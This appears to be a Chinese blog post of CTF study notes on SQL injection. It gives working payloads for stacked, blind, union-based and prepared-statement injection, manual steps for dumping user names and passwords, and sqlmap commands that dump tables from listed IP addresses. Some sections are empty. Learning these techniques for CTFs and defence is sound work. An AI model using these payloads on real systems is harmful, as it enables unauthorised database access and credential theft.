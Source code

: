 ```yaml
---
title: CTF中的SQL Injection知识点
date: 2022-12-31 14:25:39
keywords: ctf, sql injection
description: 本文总结了一些CTF中SQL注入的知识点。
---
```


数据库注入针对 Mysql、Oracle、Access、MSSql 都有不同的场景，比较常见的还是 Mysql 。

## 注入原理



## 基本类型

判断是整型注入还是字符型注入。

注入的基本类型

* 盲注，是在服务端没有错误回显的情况下注入
  * 布尔盲注
  * 时间盲注

* 显错注入
  * 联合注入，主要使用 union 关键字
  * 堆叠注入

* 报错注入

### 堆叠注入

堆叠注入就是多条语句一起执行，在 SQL 语法中，使用 `;` 分割多条语句，发现注入点后，通过构造多条语句同时执行。

```sql
GET /sqli/?id=1' ; select * from tables;
```

## 注入绕过



and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=‘security’ limit 0,1),1,1))<106%23



## 手工尝试

```sh
# 一个 Sqlite 数据库的破解步骤
# 根据 order by 后面的数字猜测字段的长度
$ usr=1' order by 3 --+&pw=123
$ usr=1' union select id,group_concat(id) from users --+&pw=123
$ usr=1' union select id,group_concat(name) from users --+&pw=123
$ usr=1' union select id,group_concat(password) from users --+&pw=123
```






## Mysql 预处理

```sql
1';SET@sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#
```

## Sqlmap

```sh
# 探测是否有漏洞
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 查看数据库表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 查看表内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, search 为参数
$ sqlmap -u http://223.112.5.156:53583/ --data="search=1"  --current-db

# 盲注
$ sqlmap -u http://1.1.1.1 --technique B
```

Sqlmap 的 tamper 脚本提供了一些绕过注入的方法。

Sqlmap 也支持盲注，通过添加 `--technique B` 参数可以对盲注场景进行注入。 

## 工具

* sqlmap



## 参考资料

1. [Sqlmap 命令大全](https://blog.csdn.net/phpppppppppp/article/details/124968358)
2. [Sqlmap 使用详解](https://blog.csdn.net/qq_43531669/article/details/113835025)
3. [SQL注入](https://www.cnblogs.com/yo1o/p/16079907.html)
4. [](https://www.freesion.com/article/43631100690/)
5. [盲注](https://blog.csdn.net/weixin_45634365/article/details/114190376)
